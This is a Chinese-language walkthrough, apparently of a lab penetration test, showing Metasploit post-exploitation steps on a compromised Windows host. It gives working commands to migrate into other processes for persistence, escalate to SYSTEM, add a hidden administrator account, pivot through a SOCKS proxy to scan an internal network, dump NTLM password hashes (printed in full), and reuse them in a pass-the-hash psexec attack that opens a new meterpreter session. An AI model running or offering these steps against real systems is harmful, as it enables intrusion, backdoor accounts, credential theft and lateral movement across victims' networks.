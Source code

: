 现在将metasploit注入到其他的进程里面，保证每次都能进入

```
getprivs 尽可能提升权限
getsystem 获得系统权限
shell 进入cmd中
net user moon$ moon123 /add & net localground administrators moon$ /add增加用户
run post/multi/gather/ping_sweep RHOSTS=10.10.10.0/24 检测存活ip
```

socket代理 用namp扫描内网的ip服务，首先增加一个路由

```
run autoroute 增加一个路由
use auxiliary/server/socks4a 选择这个
set SRVHOST 192.168.43.224 socke 隧道
exploit
```

设置proxychains代理 来进行扫描端口，这里就相当于在用目标机器进行nmap扫描内网了。

```
socks4 192.168.43.224 1080 1080这是默认端口
proxychains nmap -sT -Pn -p 445,22,80,3306 192.168.111.128-132 --open -oN 192.168.111.txt
扫描445 22 80 3306 的ip段为128-132，如果有就保存到后面的文件中 比较耗时间 这个扫描比较简单
```

现在换成之前的msf

```
获取当前服务器的hash
Administrator:500:44efce164ab921caaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
ASPNET:1006:b6cdaa6dd10a6155b54d6886c7b4b8f4:570c90ed6cca2f86b06241a2e5e0c3df:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_WWW-C4D593E2D2C:1000:44566b28c2e9a8f2d6aba8863bf7093c:2d8b5c5e471954a4ff306dff1b311cc6:::
IWAM_WWW-C4D593E2D2C:1001:80e1bd999815342156825c6c4818ef78:7c7ee5557864c448aba74604255eeac2:::
MYSQL_ZKEYS:1007:967b40abb061261ca53c143f4b0a15b4:9cd4bf9a7d90202f70773dd421c304a9:::
PhpMyAdmin_ZKEYS:1008:152a9049175e2f6a9afa378be4aedf15:184d679e2df3b67dd7ae1c2a854495a3:::
SUPPORT_388945a0:1004:aad3b435b51404eeaad3b435b51404ee:eb84cedb36588cbaf2bf1b9a64905ce5:::
```

445端口打开，开启hash攻击

```
use exploit/windows/smb/psexec    -->使用这个渗透攻击模块
set payload windows/meterpreter/bind_tcp 
show options                      -->查看配置选项
set RHOST 192.168.111.132           -->设置攻击目标192.168.2.107，端口默认445
set SMBUser Administrator                  -->设置账号为wing
set SMBPass 44efce164ab921caaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4

exploit                           -->执行攻击
```

然后来一个hash在先加解密：http://www.objectif-securite.ch/ophcrack.php其中密码是后面的那一窜数字。

然后我们就得到了一个新的session
